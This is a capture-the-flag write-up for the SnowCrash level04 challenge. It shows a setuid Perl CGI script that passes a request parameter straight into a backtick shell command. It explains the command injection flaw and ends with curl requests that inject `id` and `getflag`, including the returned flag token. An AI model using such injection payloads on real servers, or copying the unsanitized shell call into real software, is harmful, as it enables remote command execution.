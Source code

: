 # Command substitution on argument provided by privileged user
```
level04@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
-r-x------  1 level04 level04  675 Apr  3  2012 .profile
```
perl script 

CGI endpoints are specific scripts or programs that the server executes in response to user requests. Each time a request is made, a new process is started to run the script, which can make them less efficient for high traffic. They're versatile but considered older technology.

```
level04@SnowCrash:~$ cat level04.pl 
```

```
#!/usr/bin/perl
 - this means this script should be executed with the Perl interpreter

#localhost:4747
 - script accessed via web browser at localhost on port 4747

use CGI qw{param};
 - script uses Perl's CGI module to handle Common Gateway Interface (CGI) functionality

print "Content-type: text/html\n\n";

sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}

x(param("x"));
```


### Security Implications
This script has a significant security vulnerability. It directly passes user input (obtained via CGI parameters) to a shell command without any sanitation or validation. This practice can lead to command injection vulnerabilities, where an attacker could provide specially crafted input to execute arbitrary commands on the server. For example, by calling the script with the URL http://localhost:4747/level04.pl?x=$(some_malicious_command), an attacker could execute some_malicious_command on the server.

### Ensuring port 4747 is listening
```
level04@SnowCrash:~$ netstat -an | grep 4747
tcp6       0      0 :::4747                 :::*                    LISTEN  
```

### Ensurint it is vulnerable to command injections
```
level04@SnowCrash:~$ curl "http://localhost:4747/level04.pl?x=\`id\`"
uid=3004(flag04) gid=2004(level04) groups=3004(flag04),1001(flag),2004(level04)
```

### Replace id with getflag
```
level04@SnowCrash:~$ curl "http://localhost:4747/level04.pl?x=\`getflag\`"
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

